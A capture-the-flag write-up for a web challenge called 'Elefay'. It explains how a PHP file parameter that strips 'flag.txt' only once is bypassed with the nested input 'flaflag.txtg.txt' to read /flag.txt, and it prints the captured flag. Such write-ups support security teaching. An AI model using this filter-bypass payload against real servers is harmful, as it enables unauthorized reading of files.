 # Elefay
> Flag file in /flag.txt

Author: vannn

## About the Challenge
This challenge gives a website like this

<img width="1850" height="1006" alt="Screenshot from 2025-09-15 21-24-55" src="https://github.com/user-attachments/assets/4d50810e-a6f3-4f93-be97-55d1ae1d162f" />

## How to Solve?

lets see this line

```
  $file = preg_replace('/flag\.txt/i', '', preg_replace('/\.\.\//', '', $_GET['file']));
```

this function will remove flag.txt when we browse /flag.txt. but it only remove 1 times (not looping until no one flag.txt detected) also there is a function that prevents users from performing directory traversal. But don't worry about that because we don't need it, the flag is in /flag.txt. so we can use this vulnerability to use query like

```
http://48794f12-d7c6-44ed-8412-6d0b11df1d64.chall.intersec.hcs-team.com/?file=/flaflag.txtg.txt
```

<img width="1850" height="1006" alt="Screenshot from 2025-09-15 21-34-53" src="https://github.com/user-attachments/assets/4cd68ff8-5c49-45a9-81d7-f182637557a3" />


Boom. we got the flag

## Flag
```
HCS{k4mu_k0k_j4g0_b4ng3t_s1h_b4n9_m44f_ya_soalny4_t3rlalu_g4mp4ng_bu4t_k4mu_:3_cb11b8ef-990d-4c6d-bbe6-883e50d96183}
```
